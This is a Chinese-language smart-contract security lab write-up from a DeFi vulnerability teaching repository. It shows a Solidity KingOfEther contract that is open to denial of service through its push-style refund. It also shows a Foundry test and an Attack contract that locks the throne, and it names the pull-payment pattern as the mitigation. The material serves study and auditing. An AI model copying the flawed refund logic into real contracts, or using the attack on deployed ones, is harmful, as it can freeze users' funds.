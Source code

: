# 拒绝服务攻击  
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)  
**名称：** 拒绝服务攻击  
KingOfEther合约有一个游戏，用户可以通过发送比当前余额更多的以太币来夺取王位。  
当新用户发送更多以太币时，合约试图将之前的余额返还给上一位“国王”。   

然而，这个机制可能被利用。攻击者的合约(这里称为Attack合约)可以成为国王，  
然后使回退函数回滚或消耗超过规定的gas限制，从而导致KingOfEther合约在尝试将以太币返回给上一位国王时失败。


**缓解措施：**  
使用拉取支付模式。一种防止这种情况的方法是允许用户提取他们的以太币，而不是直接发送给他们。  

**参考：**  
https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26  

**KingOfEther合约：**  
```
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/DOS.sol -vvvv  
```
// 这是一个测试函数，用于执行DoS攻击的场景
function testDOS() public {
    // 声明了两个地址，分别用于模拟用户Alice和Bob。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice和Bob分别获得4个以太币和2个以太币。
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // 使用Alice的地址调用prank函数
    vm.prank(alice);

    // Alice试图通过发送1个以太币来夺取KingOfEtherContract的王位
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // 再次调用prank函数，这次使用Bob的地址。
    vm.prank(bob);

    // Bob试图通过发送2个以太币来夺取王位
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // 记录Alice在返回1个以太币后的余额
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // 调用Attack合约的attack函数，发起DoS攻击，
    // 向KingOfEther合约发送3个以太币。
    AttackerContract.attack{value: 3 ether}();

    // 记录KingOfEther合约的余额
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // 记录一条消息，表明攻击已完成，Alice将无法再次夺取王位。
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // 使用Alice的地址再次调用prank函数，预期会触发回滚。
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice试图再次夺取王位，但由于DoS攻击而失败。
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// 这是用于实施DoS攻击的合约
contract Attack {
    KingOfEther kingOfEther;

    // 用于初始化KingOfEther合约的构造函数。
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 通过向KingOfEther合约发送以太币来夺取王位的攻击函数。
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```  
**红框：在攻击漏洞后，没有人能够赢得这个游戏  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F250bdebe-a8ed-459a-b62f-bcf5c992c156%2FUntitled.png?table=block&id=17d7c11c-3273-49da-95a4-d6ba9817ad4b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

